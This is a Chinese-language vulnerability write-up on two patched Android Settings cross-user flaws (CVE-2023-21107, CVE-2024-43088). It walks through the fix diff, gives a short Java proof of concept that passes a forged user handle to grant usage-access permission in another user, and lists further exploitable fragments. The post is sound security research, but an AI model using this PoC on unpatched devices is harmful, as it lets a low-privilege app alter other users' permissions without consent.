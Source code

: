 ```yaml
---
title: 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088
slug: blog/discussion-3/
number: 3
url: https://github.com/CloveIso/notes/discussions/3
date:
  created: 2024-11-21
  updated: 2024-11-21
created: 2024-11-21
updated: 2024-11-21
authors: [Cloveiso]
categories: []
comments: true
---
```


# 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088

作为一个关键系统应用，系统设置拥有跨用户权限，此漏洞中的一个 Fragment 接收外部传递的 user handle 而没有任何输入校验和权限检查，然后直接开始使用这个 user handle，这样就使得攻击者可以利用一个低权限的恶意应用，打开 Settings 并传入其他用户的 handle，让高权限的 Settings 错误访问和操作其他用户的数据。

CVE-2023-21107漏洞补丁：[Enforce INTERACT_ACROSS_USERS_FULL permission for NotificationAccessDetails](https://android.googlesource.com/platform/packages/apps/Settings/+/179e5ce2a521710992b5ebdb2d88e0c3b3f2c12b^!/#F0)

CVE-2024-43088漏洞补丁：[Checks cross user permission before handling intent](https://android.googlesource.com/platform/packages/apps/Settings/+/975c28535419be1cc45f66712f41e4a7a40e6001)

## CVE-2024-43088分析

两个漏洞基本一模一样，这里以CVE-2024-43088为例浅浅分析一下

先看一下补丁：

```java
@@ -135,8 +137,13 @@
             }
         }
         if (intent != null && intent.hasExtra(Intent.EXTRA_USER_HANDLE)) {
-            mUserId = ((UserHandle) intent.getParcelableExtra(
-                    Intent.EXTRA_USER_HANDLE)).getIdentifier();
+            mUserId = ((UserHandle) intent.getParcelableExtra(Intent.EXTRA_USER_HANDLE))
+                    .getIdentifier();
+            if (mUserId != UserHandle.myUserId() && !hasInteractAcrossUsersPermission()) {
+                Log.w(TAG, "Intent not valid.");
+                finish();
+                return "";
+            }
         } else {
             mUserId = UserHandle.myUserId();
         }
@@ -159,6 +166,28 @@
         return mPackageName;
     }
 
+    @VisibleForTesting
+    protected boolean hasInteractAcrossUsersPermission() {
+        Activity activity = getActivity();
+        if (!(activity instanceof SettingsActivity)) {
+            return false;
+        }
+        final String callingPackageName =
+                ((SettingsActivity) activity).getInitialCallingPackage();
+
+        if (TextUtils.isEmpty(callingPackageName)) {
+            Log.w(TAG, "Not able to get calling package name for permission check");
+            return false;
+        }
+        if (mPm.checkPermission(Manifest.permission.INTERACT_ACROSS_USERS_FULL, callingPackageName)
+                != PackageManager.PERMISSION_GRANTED) {
+            Log.w(TAG, "Package " + callingPackageName + " does not have required permission "
+                    + Manifest.permission.INTERACT_ACROSS_USERS_FULL);
+            return false;
+        }
+        return true;
+    }
+
```

主要添加了hasInteractAcrossUsersPermission。当userID和当前的userID不同时就会调用hasInteractAcrossUsersPermission函数来校验拉起方是否有跨用户权限

找到漏洞位置：public abstract class AppInfoBase extends SettingsPreferenceFragment implements ApplicationsState.Callbacks，是一个fragment，并且是一个抽象类

![aosp.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158042230_aosp.png)

 查找该函数调用：

![image-20241111155852745.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158465468_image-20241111155852745.png)

以com.android.settings.applications.UsageAccessDetails为例，对应的是com.android.settings.Settings.AppUsageAccessSettingsActivity

![image-20241111160036278.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158582299_image-20241111160036278.png)

我们直接拉起他看是什么样的

```
                Intent intent = new Intent();
                intent.setClassName("com.android.settings", "com.android.settings.Settings$AppUsageAccessSettingsActivity");
                intent.setData(Uri.parse("com.android.chrome"));
                startActivity(intent);
```

![image-20241111160719648.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158670050_image-20241111160719648.png)

看到这个界面大概就明白了。就是可以跨用户授权呗

先随便写个应用，申请一下android.permission.PACKAGE_USAGE_STATS权限安装到user10

![image-20241111160202204.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158839396_image-20241111160202204.png)

![image-20241111160314023.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158981135_image-20241111160314023.png)

现在是不允许状态

![image-20241111160843406.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159148933_image-20241111160843406.png)

然后我们切换回主用户再写一个应用

```
Intent intent = new Intent();
intent.setClassName("com.android.settings", "com.android.settings.Settings$AppUsageAccessSettingsActivity");
intent.setData(Uri.parse("com.android.test5"));
UserHandle us = UserHandle.getUserHandleForUid(1010000);
Log.e(TAG, "onClick: " + us );
intent.putExtra("android.intent.extra.user_handle", us);
startActivity(intent);
```

![image-20241111160549919.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159477345_image-20241111160549919.png)

运行poc之后是这样子的

![image-20241111160600370.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159559467_image-20241111160600370.png)

我们点击允许按钮，然后再切换到user10，这时已经变成已允许了

![image-20241111160909923.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159825397_image-20241111160909923.png)

## 杂项

com.android.settings.applications.AppInfoBase的子类有很多，该问题代码在AppInfoBase的onCreate函数里就会调用。所以按理来说他的所有子类都是可以利用的。

但是实际并不是这样。由于settings的fragment的启动限制，有两种情况是没法利用的。

一种是只能由点击进入的fragment，例如com.android.settings.applications.AppStorageSettings

还有一种是在FRAGMENT_TO_SPA_APP_DESTINATION_PREFIX_MAP这个map里的

因为在这两个map里的fragment会调用com.android.settings.spa.SpaActivity$Companion.startSpaActivityForApp函数

![image-20241111170151967.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732160032804_image-20241111170151967.png)

startSpaActivityForApp函数会从intent中获取包名。然后末尾加上当前的userID，导致无法利用

![image-20241111170218170.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732172359362_image-20241111170218170.png)

那么还有哪些fragment可以利用呢，我仔细过滤了一遍：

然后只发现了一个0.0

com.android.settings.applications.appinfo.LongBackgroundTasksDetails

![image-20241111170554992.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732172423758_image-20241111170554992.png)



